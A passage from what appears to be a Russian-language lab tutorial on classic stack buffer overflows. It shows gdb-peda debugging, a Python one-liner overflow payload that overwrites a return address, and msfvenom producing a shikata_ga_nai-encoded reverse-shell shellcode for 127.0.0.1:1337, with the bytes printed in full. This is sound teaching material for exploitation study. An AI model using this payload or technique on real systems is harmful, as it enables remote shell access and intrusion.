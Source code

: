 ```
gdb-peda$ show debug-file-directory  // смотрим, какая директория содержит библиотеки с информацией для дебага
The directory where separate debug symbols are searched for is "/usr/lib/debug".

gdb-peda$ set debug-file-directory  // временно отключаем ее использование
```

[![gdb-peda-libc-so-error.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-so-error.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-so-error.png)
{:.center-image}

Методом «Пол, Палец, Потолок» выясняем, что при перезаписи 160 байтов за пределами стека ничего плохого не происходит.

```
gdb-peda$ r `python -c 'print "A"*132 + "\xd3\x4d\xc0\xd3"[::-1] + "B"*160'`
```

[![gdb-peda-libc-160-bytes-no-error.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-160-bytes-no-error.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-libc-160-bytes-no-error.png)
{:.center-image}

Поэтому ради разнообразия сгенерируем пейлоад с помощью метасполитовского `msfvenom` и посмотрим на заполнении стека при таком размещении шелл-кода.

Для этого переместимся на Kali и посмотрим список доступных полезных нагрузок для Linux x86, которые не ориентируются на использование meterpreter (которого в нашем распоряжении на Ubuntu нет).

[![kali-payloads.png](/assets/images/pwn-kingdom/classic-stack-overflow/kali-payloads.png)](/assets/images/pwn-kingdom/classic-stack-overflow/kali-payloads.png)
{:.center-image}

Я выбрал реверс-шелл linux/x86/shell_reverse_tcp. Сгенерируем его, указав в качестве жертвы localhost на 1337 порту и закодировав нагрузку с помощью [энкодера](https://xakep.ru/2018/12/14/msfvenom/#toc03.1) x86/shikata_ga_nai для увеличения размера кода.

```
root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -e x86/shikata_ga_nai -a x86 --platform linux LHOST=127.0.0.1 LPORT=1337 -f c
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xbe\xaf\x6c\xe1\x7e\xd9\xe5\xd9\x74\x24\xf4\x5f\x31\xc9\xb1"
"\x12\x83\xc7\x04\x31\x77\x0e\x03\xd8\x62\x03\x8b\x17\xa0\x34"
"\x97\x04\x15\xe8\x32\xa8\x10\xef\x73\xca\xef\x70\xe0\x4b\x40"
"\x4f\xca\xeb\xe9\xc9\x2d\x83\x96\x29\xce\x52\x01\x28\xce\x51"
"\xe8\xa5\x2f\xe9\x6c\xe6\xfe\x5a\xc2\x05\x88\xbd\xe9\x8a\xd8"
"\x55\x9c\xa5\xaf\xcd\x08\x95\x60\x6f\xa0\x60\x9d\x3d\x61\xfa"
"\x83\x71\x8e\x31\xc3";
```


[//]: # (2019-09-20)